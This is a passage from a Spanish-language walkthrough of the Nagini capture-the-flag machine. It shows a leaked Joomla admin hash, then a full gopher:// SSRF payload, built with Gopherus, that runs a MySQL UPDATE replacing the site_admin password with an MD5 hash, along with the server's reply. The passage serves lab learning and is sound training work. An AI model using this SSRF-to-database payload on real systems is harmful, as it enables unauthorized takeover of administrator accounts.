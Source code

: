 Resultado:

```bash
site_adminsite_admin@nagini.hogwarts<$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay"
```

Explicación: tenemos un posible usuario admin `site_admin` y una contraseña `$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay` que podemos tratar de descifrar (aunque no va a dar resultado en esta ocasión)

**¿Qué podemos hacer entonces?**

Con el SSRF podemos hacer más cosas, ya que algo que podemos realizar es modificar datos en la base de datos

Acción:

```bash
echo -n "password123" | md5sum
```

Resultado:

```bash
482c811da5d5b4bc6d497ffa98491e38
```

Explicación: creamos un hash en md5sum para actualizar la contraseña del usuario `site_admin` al hash `password123`

Acción: desde gopherus3

```bash
USE joomla; update joomla_users set password='482c811da5d5b4bc6d497ffa98491e38' where username='site_admin';
```

URL SSRF:

```bash
gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%6d%00%00%00%03%55%53%45%20%6a%6f%6f%6d%6c%61%3b%20%75%70%64%61%74%65%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%20%73%65%74%20%70%61%73%73%77%6f%72%64%3d%27%34%38%32%63%38%31%31%64%61%35%64%35%62%34%62%63%36%64%34%39%37%66%66%61%39%38%34%39%31%65%33%38%27%20%77%68%65%72%65%20%75%73%65%72%6e%61%6d%65%3d%27%73%69%74%65%5f%61%64%6d%69%6e%27%3b%01%00%00%00%01
```

Resultado:

```html
c 5.5.5-10.3.27-MariaDB-0+deb10u1AU[H7xyvd��-��s7V*miE]'EePmysql_native_password @ joomla0(Rows matched: 1 Changed: 0 Warnings: 0
```

Explicación: contraseña cambiada con éxito

Acción: nos dirigimos al endpoint que nos proporciono joomscan que es un panel de login administrativo
